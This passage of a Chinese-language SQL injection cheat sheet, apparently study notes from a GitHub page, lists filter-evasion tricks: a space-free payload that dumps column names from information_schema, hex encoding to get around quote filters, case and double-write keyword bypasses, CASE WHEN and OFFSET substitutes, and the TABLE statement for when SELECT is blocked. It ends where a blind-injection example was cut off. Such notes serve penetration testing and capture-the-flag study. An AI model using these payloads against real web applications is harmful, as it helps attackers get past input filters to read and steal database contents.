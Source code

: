 爆字段

```sql
select(group_concat(column_name))from(information_schema.columns)where(table_name='persons');
```

# 19 过滤单引号双引号

凡字符串都可以编码绕过，建议编码绕过，参考下面编码绕过

比如: hex绕过

```sql
select 0x74657374='test';-- 1
```

# 20 关键词绕过

- 大小写

针对正则没加/i参数的情形

- 双写
- 编码

凡字符串都可以编码绕过，建议编码绕过，参考下面编码绕过

比如: hex绕过

```sql
select 0x74657374='test';-- 1
```

- 相似函数替换

if 被过滤，使用case when

limit 可以用offset绕过,limit 0,1等于limit 0 offset 1

#### 20.1 select 被过滤

##### table

table :只能查询表，不能按列查询

```
table user;     #相当于select * from user 
table user order by username limit 1 offset 0;
```

table盲注原理示例：（元组的比较）



![image-20210820122021224](https://raw.githubusercontent.com/hmt38/abcd/master/image-20210820122021224.png)



table盲注information_schema.tables示例:

